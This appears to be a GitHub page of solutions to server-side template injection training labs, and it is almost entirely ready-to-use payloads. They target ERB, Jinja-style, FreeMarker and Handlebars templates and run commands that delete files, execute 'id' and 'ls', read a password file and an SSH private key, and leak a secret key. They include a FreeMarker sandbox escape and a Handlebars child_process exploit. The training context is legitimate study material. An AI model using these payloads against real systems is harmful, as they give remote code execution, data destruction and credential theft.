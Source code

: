 # SSTI : Server-side template injection 


### Basic server-side template injection
Payload
```
Fuzz : ${{<%[%'"}}%\.
ERB  : syntax <%= someExpression %> 

https://lab.net/?message=<%2=+system("rm+/home/carlos/morale.txt")+%25>


```
### Server-side template injection with information disclosure via user-supplied objects
Payload
```
Fuzz : ${{<%[%'"}}%\.

<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.{{settings.SECRET_KEY}}</p>
```

### Server-side template injection using documentation
Payload
```
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.HELLOO ${"freemarker.template.utility.Execute"?new()("rm -rf morale.txt")}</p>
```

### Server-side template injection in an unknown language with a documented exploit
```
FUZZ : ${{<%[%'"}}%\


"Handlebars server-side template injection". You should find a well-known exploit posted by @Zombiehelp54.

wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}



<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -l")}


<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}

</p>
```


### Server-side template injection with a custom exploit

Payload
```
1.Upload txt file and see the error

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar(('/tmp/hello.txt', 'text/plain'))
#1 {main}
  thrown in /home/carlos/User.php on line 28


blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX





blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX


blog-post-author-display=user.gdprDelete()&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX



```
